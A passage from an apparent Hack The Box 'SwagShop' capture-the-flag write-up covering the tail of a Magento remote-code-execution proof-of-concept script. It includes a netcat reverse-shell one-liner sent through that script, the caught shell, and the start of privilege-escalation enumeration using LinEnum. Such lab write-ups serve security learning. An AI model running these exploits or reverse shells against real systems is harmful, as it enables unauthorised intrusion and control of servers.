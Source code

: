 request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
tunnel = re.search("src=\"(.*)\?ga=", request.read())
tunnel = tunnel.group(1)

payload = base64.b64encode(payload)
gh = md5(payload + install_date).hexdigest()

exploit = tunnel + '?ga=' + payload + '&h=' + gh

try:
    request = br.open(exploit)
except (mechanize.HTTPError, mechanize.URLError) as e:
    print e.read()
{% endhighlight %}

For the `install_date` variable, it can be found in `http://swagshop.htb/app/etc/local.xml`. Now lets test it out with a `whoami` command. For the `target` variable, which is the first argument, it is the URL of the admin login page (`http://10.10.10.140.htb/index.php/admin`). Note that we cannot use the domain name `swagshop.htb` as we will always be redirected to `10.10.10.140` for some reason.

{% highlight bash %}
$ python poc.py http://10.10.10.140/index.php/admin "whoami"
www-data
{% endhighlight %}

Great! Now lets our listener and establish a reverse shell connection!

{% highlight bash %}
$ nc -lvnp 1337
listening on [any] 1337 ...
{% endhighlight %}

{% highlight bash %}
$ python poc.py http://10.10.10.140/index.php/admin "rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.XXX.XXX 1337 >/tmp/g"
{% endhighlight %}

As expected, we caught the reverse shell.
{% highlight bash %}
connect to [10.10.XXX.XXX] from (UNKNOWN) [10.10.10.140] 39904
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
{% endhighlight %}

# Enumeration

To quickly enumerate for possible privilege escalation vectors, I will using [LinEnum](https://github.com/rebootuser/LinEnum). To transfer it from my machine to this machine, I will be using `python`'s `SimpleHTTPServer` module.

On my machine:
{% highlight bash %}
$ mkdir httpserver
$ cd httpserver
$ cp ~/Downloads/LinEnum.sh .
$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
{% endhighlight %}
